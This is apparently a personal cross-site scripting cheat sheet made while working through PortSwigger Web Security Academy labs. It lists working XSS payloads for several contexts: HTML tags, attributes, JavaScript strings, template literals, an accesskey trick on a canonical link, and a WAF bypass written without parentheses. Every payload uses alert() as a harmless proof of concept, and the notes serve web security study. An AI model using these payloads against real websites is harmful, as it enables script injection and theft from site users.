 [[XSS]]
# Between HTML tags
```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

# XSS in HTML tag attributes
```html
"><script>alert(document.domain)</script>
```

```html
" autofocus onfocus=alert(document.domain) x="
```

```html
<a href="javascript:alert(document.domain)">
```
##### Using `accesskey` to invoke some JS code placed in a attribute of `canonical` tag.
Final payload:
```
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
How it looks in DOM:
```html
<link rel="canonical" href="https://0ace00fb0457e86f80a1210c00d900da.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
```

# XSS into JavaScript
##### Terminating the existing script
```js
<script>
...
var input = 'controllable data here';
...
</script>
```
Payload:
```html
</script><img src=1 onerror=alert(document.domain)>
```

##### Breaking out of a JavaScript string
```javascript
'-alert(document.domain)-'
';alert(document.domain)//
```

##### Bypass escaping single quotes with a backslash
For example, suppose that the input:
`';alert(document.domain)//`

gets converted to:
`\';alert(document.domain)//`

You can now use the alternative payload:
`\';alert(document.domain)//`

which gets converted to:
`\\';alert(document.domain)//`

##### WAF blocks some characters
https://portswigger.net/research/xss-without-parentheses-and-semi-colons
Sink:
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ =&gt; window.location = '/')">Back to Blog</a>
```
Payload:
```
https://0a1e00d90352e31e86f7868200e60090.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
HTML:
```html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ =&gt; window.location = '/')">Back to Blog</a>
```
Parsed JS:
```js
fetch('/analytics', {
    method: 'post',
    body: '/post?postId=5&'
}, x = x => {
    throw /**/
    onerror = alert,
    1337
}
, toString = x, window + '', {
    x: ''
}).finally(_ => window.location = '/')
```
##### Making use of HTML-encoding
Context:
```html
<a href="#" onclick="... var input='controllable data here'; ...">
```
payload:
```html
&apos;-alert(document.domain)-&apos;
```

##### XSS in JavaScript template literals
Example:
```html
<script> ... var input = `controllable data here`; ... </script>
```
payload:
```js
${alert(document.domain)}
```
